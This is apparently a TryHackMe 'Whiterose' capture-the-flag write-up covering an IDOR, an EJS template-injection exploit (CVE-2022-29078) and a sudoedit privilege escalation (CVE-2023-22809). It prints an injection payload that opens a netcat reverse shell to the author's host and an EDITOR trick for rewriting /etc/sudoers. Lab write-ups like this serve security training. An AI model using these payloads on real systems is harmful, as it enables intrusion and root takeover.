 ```yaml
---
title: Whiterose
date: 2024-12-05
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, ssti, idor]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/whiterose/banner.png
---
```


> Just like many other challenges, [this one](https://tryhackme.com/r/room/whiterose) is also inspired by Mr.Robot (and based on episode "409 Conflict" for anyone who watched the serie).

# Information Gathering

Before we start this challenge, we are given some credentials (`Olivia Cortez:olivi8`) but we do not know when this will be useful.

As always, we start the challenge with a nmap scan :

![Nmap scan screenshot](/assets/img/tryhackme/ctf/whiterose/1.png)

Two services are open on **SSH port** and **HTTP port**.
Hence, we can take a look at the web application hosted on that machine (after writing the dns entry in `/etc/hosts` to translate the domain name).

This being done, we can see how the website looks like :

![Web application default](/assets/img/tryhackme/ctf/whiterose/2.png)

I tried to enumerate the directories but it resulted in nothing.
Then, using **ffuf**, I enumerated the vhosts and found one named *admin* : 

![fuff](/assets/img/tryhackme/ctf/whiterose/fuff.png)

So I decided to take a look at it (after putting the other entry) :

![Admin login](/assets/img/tryhackme/ctf/whiterose/3.png)

We land on this login page that is asking for a name and a password. Obviously, the first thing we can do is trying the credentials we were given at the beginning of the challenge. This proves to be useful because it gives the access to the admin panel on which are displayed the recent payments, bank accounts (with hidden phone numbers), messages and a *Settings* tab we cannot access with our privileges.

![Admin panel](/assets/img/tryhackme/ctf/whiterose/4.png)

When exploring the different tabs, the *Messages* one displays an admin chat :

![Messages tab](/assets/img/tryhackme/ctf/whiterose/5.png)

At first glance, the chat is banalistic but if we take a look at the URL, we observe a *"c"* parameter that is set to *5* and this is instantly catching the eye.
Let's check if there is an [IDOR](https://portswigger.net/web-security/access-control/idor)...

![Messages tab idor](/assets/img/tryhackme/ctf/whiterose/6.png)

We found the password of a privileged admin account!
Now, if we try to connect with **Gayle Bev's account**, these credentials work and we retrieve Tyrell Wellick's phone number to answer the first question of the challenge.

# Initial Access

It took me quite some time to figure out what to do next in order to get an initial access to the target machine, but then I remembered that with the privileged admin account, we also got the access to the *Settings* tab's content that was previously hidden, so I went to check it.

This tab is used for changing the customer's password. When we enter a customer name (no matter what it is) and a new password, it reflects the chosen password on the page so I wondered if I could use this at my advantage (perhaps with a [SSTI](https://portswigger.net/web-security/server-side-template-injection)...).

![Settings tab](/assets/img/tryhackme/ctf/whiterose/7.png)

I tried a few basic payloads but nothing seemed to be working so I intercepted the POST request using Burp Suite.
So far, this is what a classic request looks like :

![Burp1](/assets/img/tryhackme/ctf/whiterose/8.png)

If we omit to enter a customer name or a password, it alerts *'Please enter a valid name'* or asks for a password. However, if we erase the password field then it creates an *Error* response and we can see that this application uses **Embedded JavaScript (.ejs)** and that it is executed server-side.

![Burp2](/assets/img/tryhackme/ctf/whiterose/9.png)

After searching for some time for an exploit on ejs, I found a [website](https://www.seebug.org/vuldb/ssvid-99549) with a PoC for the vulnerability **CVE-2022-29078** and adapted it to my case.

I entered the payload in the Burp Suite request, started my netcat listener on the correct port. Consequently, I managed to open a shell as the **web** user and find the flag named `user.txt` in the parent directory.

```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc <MY_IP> <MY_PORT> -e bash');s
```

![Burp3](/assets/img/tryhackme/ctf/whiterose/10.png)
![netcat1](/assets/img/tryhackme/ctf/whiterose/11.png)

> I [upgraded my shell](https://0xffsec.com/handbook/shells/full-tty/) for further convenience in the next steps.

# Privilege Escalation

The first thing that I do after I gained the shell ready is to type `sudo -l` in order to see if the **web** user has any particular privileges for a special command, and there is one :

![sudol](/assets/img/tryhackme/ctf/whiterose/12.png)

We can execute the **sudoedit** command with root privileges, without any password on the website file.

After searching a little, I found that there is a vulnerability for this command (**CVE-2023-22809**) that we can exploit to escalate our privileges to root. This vulnerability allows us to modify files we would not be able to modify without root privileges through the **sudoedit** command.

To exploit it, we first need to set a new environment variable called *EDITOR* (that sudoedit will try to find) so that we open `/etc/sudoers` using **nano**.

```shell
export EDITOR="nano -- /etc/sudoers"
```

![env](/assets/img/tryhackme/ctf/whiterose/13.png)

Then if we type the command we have root privileges on...
```shell
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
...it opens the `/etc/sudoers` file and we can modify it to give the **web** user the rights to use every commands with root privileges.

![etcsudoers](/assets/img/tryhackme/ctf/whiterose/14.png)

Once we save the files, we can now elevate our privileges and discover the last flag to finish the challenge!

![rootflag](/assets/img/tryhackme/ctf/whiterose/15.png)